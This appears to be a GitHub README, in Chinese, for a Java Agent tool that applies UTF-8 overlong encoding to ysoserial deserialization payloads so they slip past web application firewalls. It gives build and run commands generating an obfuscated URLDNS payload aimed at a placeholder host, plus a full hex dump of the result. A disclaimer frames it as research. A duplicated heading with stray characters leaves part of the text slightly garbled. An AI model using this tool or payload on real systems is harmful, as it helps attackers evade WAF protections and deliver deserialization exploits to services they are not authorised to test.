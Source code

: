 # UTF8 Overlong WAF Bypass Hook
本项目是对 先知 上发布的 [UTF-8 Overlong Encoding](https://xz.aliyun.com/t/14300) 绕过 WAF (Web Application Firewall) 技术的研究的实现。通过 Java 反序列化利用 Java Agent 技术来实现 UTF-8 Overlong Encoding，从而可能绕过某些 WAF 的防护。

# 使用方法

## 编译
>>> mvn clean package -Dmaven.test.skip=true    

## 使用 ................x



## 使用方法
### 编译
```sh
mvn clean package -Dmaven.test.skip=true
```
这将编译项目并生成必要的 JAR 文件，同时跳过测试。
### 使用
1. 使用 Java Agent 生成 payload：
```sh
java -jar -javaagent:/path/to/UTF8_Agent-1.0-SNAPSHOT.jar ysoserial-0.0.6-SNAPSHOT-all_frohoff.jar URLDNS http://4.example.com > utf8_obf_urldns.bin
```
请确保将 `/path/to/UTF8_Agent-1.0-SNAPSHOT.jar` 替换为实际的 Java Agent 文件路径。

2.查看生成的 payload：
```sh
xxd -c 42 ./utf8_obf_urldns.bin

00000000: aced 0005 7372 0033 e081 aae0 81a1 e081 b6e0 81a1 e080 aee0 81b5 e081 b4e0 81a9 e081 ace0 80ae e081 88e0  ....sr.3..................................
0000002a: 81a1 e081 b3e0 81a8 e081 8de0 81a1 e081 b005 07da c1c3 1660 d103 0002 4600 1ee0 81ac e081 afe0 81a1 e081  .......................`....F.............
00000054: a4e0 8186 e081 a1e0 81a3 e081 b4e0 81af e081 b249 001b e081 b4e0 81a8 e081 b2e0 81a5 e081 b3e0 81a8 e081  ...................I......................
0000007e: afe0 81ac e081 a478 703f 4000 0000 0000 0c77 0800 0000 1000 0000 0173 7200 24e0 81aa e081 a1e0 81b6 e081  .......xp?@......w.........sr.$...........
000000a8: a1e0 80ae e081 aee0 81a5 e081 b4e0 80ae e081 95e0 8192 e081 8c96 2537 361a fce4 7203 0007 4900 18e0 81a8  ..........................%76...r...I.....
000000d2: e081 a1e0 81b3 e081 a8e0 8183 e081 afe0 81a4 e081 a549 000c e081 b0e0 81af e081 b2e0 81b4 4c00 1be0 81a1  .....................I..............L.....
000000fc: e081 b5e0 81b4 e081 a8e0 81af e081 b2e0 81a9 e081 b4e0 81b9 7400 36e0 818c e081 aae0 81a1 e081 b6e0 81a1  ........................t.6...............
00000126: e080 afe0 81ac e081 a1e0 81ae e081 a7e0 80af e081 93e0 81b4 e081 b2e0 81a9 e081 aee0 81a7 e080 bb4c 000c  .......................................L..
00000150: e081 a6e0 81a9 e081 ace0 81a5 7100 7e00 034c 000c e081 a8e0 81af e081 b3e0 81b4 7100 7e00 034c 0018 e081  ............q.~..L..............q.~..L....
0000017a: b0e0 81b2 e081 afe0 81b4 e081 afe0 81a3 e081 afe0 81ac 7100 7e00 034c 0009 e081 b2e0 81a5 e081 a671 007e  ......................q.~..L...........q.~
000001a4: 0003 7870 ffff ffff ffff ffff 7400 27e0 80b4 e080 aee0 81a5 e081 b8e0 81a1 e081 ade0 81b0 e081 ace0 81a5  ..xp........t.'...........................
000001ce: e080 aee0 81a3 e081 afe0 81ad 7400 0071 007e 0005 7400 0ce0 81a8 e081 b4e0 81b4 e081 b070 7874 003c e081  ............t..q.~..t..............pxt.<..
000001f8: a8e0 81b4 e081 b4e0 81b0 e080 bae0 80af e080 afe0 80b4 e080 aee0 81a5 e081 b8e0 81a1 e081 ade0 81b0 e081  ..........................................
00000222: ace0 81a5 e080 aee0 81a3 e081 afe0 81ad 78       
```
这将以十六进制格式显示 payload 内容。

### 注意事项
- 本工具旨在帮助安全研究者和开发人员了解和防范 Java 反序列化漏洞，不应用于非法目的。
- 使用本工具可能对目标系统造成影响，请确保在授权的环境中使用。

## 贡献
欢迎贡献代码和改进建议！请通过 GitHub 的 Pull Requests 功能提交您的贡献。

## 许可证
本项目采用 [Apache License 2.0](LICENSE) 许可证。